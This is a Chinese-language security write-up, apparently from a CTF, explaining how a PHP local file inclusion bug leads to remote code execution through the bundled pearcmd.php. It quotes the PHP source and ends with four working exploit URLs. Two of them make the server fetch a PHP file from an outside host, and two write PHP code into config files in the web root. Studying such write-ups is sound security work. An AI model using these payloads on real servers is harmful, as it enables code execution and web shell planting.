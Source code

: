 categories:
- web
tags:
- LFI
- php
- web
- RCE
title: LFI利用php自带的pearcmd.php直接RCE
---
# LFI利用php自带的pearcmd.php直接RCE

在做巅峰极客的一题时，用到了包含pearcmd.php从而RCE的点（perlcmd.php也是一样的），今天来研究一下这个点

## 产生原因

阅读pearcmd.php中关于参数产生的那部分代码发现：

```php
...
if (!isset($_SERVER['argv']) && !isset($argv) && !isset($HTTP_SERVER_VARS['argv'])) {
    echo 'ERROR: either use the CLI php executable, ' .
         'or set register_argc_argv=On in php.ini';
    exit(1);
}

$argv = Console_Getopt::readPHPArgv();
...
array_shift($argv);//这里删除了第一个argv，通常argv[0]是程序名
...
```



`Getopt.php:readPHPArgv`

```php

    public static function readPHPArgv()
    {
        global $argv;
        if (!is_array($argv)) {
            if (!@is_array($_SERVER['argv'])) {
                if (!@is_array($GLOBALS['HTTP_SERVER_VARS']['argv'])) {
                    $msg = "Could not read cmd args (register_argc_argv=Off?)";
                    return PEAR::raiseError("Console_Getopt: " . $msg);
                }
                return $GLOBALS['HTTP_SERVER_VARS']['argv'];
            }
            return $_SERVER['argv'];
        }
        return $argv;
    }
```



我们发现这里的参数是从`$_SERVER['argv']`（旧版本的就是：`$GLOBALS['HTTP_SERVER_VARS']['argv']`）中获取的

我们来测试一下`$_SERVER['arvg']`,测试代码：`var_dump($_SERVER['argv']);`

访问http://127.0.0.1:60080/?1+2+3+4+%20+%dd

```
/var/www/html/index.php:4:
array (size=6)
  0 => string '1' (length=1)
  1 => string '2' (length=1)
  2 => string '3' (length=1)
  3 => string '4' (length=1)
  4 => string '%20' (length=3)
  5 => string '%dd' (length=3)
```

在$_SERVER['argv']中的所有url编码都不会被解析，只是当成普通字符串，而+会被解析成参数的分隔符

于是我们便可以像在命令行一样调用pearcmd.php了，接下来就变成了利用pearcmd这个命令getshell，直接命令行尝试（太懒了）

查看pearcmd.php的帮助：`php pearcmd.php [options] command [command-options] <parameters>`，那么我们传参就得变成

`url/?+[options]+command+[command-options]+<parameters>`，?后面必须跟一个+号让其作为$argv[0],这里要注意+号的数量，因为这是拿来作为分隔符的如：`?++`就会被解析成`["","",""]`



## 利用条件

![image1911](https://raw.githubusercontent.com/Explorersss/photo/master/20201020153757.png)

1. register_argc_argv=On（默认是开的）
2. 包含pearcmd.php或者peclcmd.php






## payload
这里直接给出payload，都是直接看帮助写出来的，没啥好说的。



exp1:

需要出网

```
http://192.168.43.230:60080/?+install+--installroot+/tmp/+http://ccreater.top:60006/evil.php++++++++++++++$&f=pearcmd.php&#把GET参数都塞到最后面
http://192.168.43.230:60080/?f=/tmp/tmp/pear/download/install.php
```



exp2:

需要出网

会下载到当前文件夹

```
http://192.168.43.230:60080/?+download+https://fuckyou.free.beeceptor.com/fuckyou.php+&f=pearcmd.php#都塞到最后面
http://192.168.43.230:60080/?f=fuckyou.php
```



exp3:

```php
http://192.168.43.230:60080/?+config-create+/<?=phpinfo();?>/*+/var/www/html/&f=pearcmd.php&XDEBUG_SESSION_START=PHPSTORM.php#把GET参数都塞到路径中，这里可以用url编码来防止空格,/等对文件生成造成影响的字符
http://192.168.43.230:60080/&f=pearcmd.php&XDEBUG_SESSION_START=PHPSTORM.php
```



exp4:

**最好用**

```
http://192.168.43.230:60080/?+-c+/var/www/html/config2.php+-d+man_dir=<?phpinfo();?>/*+-s+list&f=pearcmd.php&XDEBUG_SESSION_START=PHPSTORM#参数塞到最后面
http://192.168.43.230:60080/config2.php
```

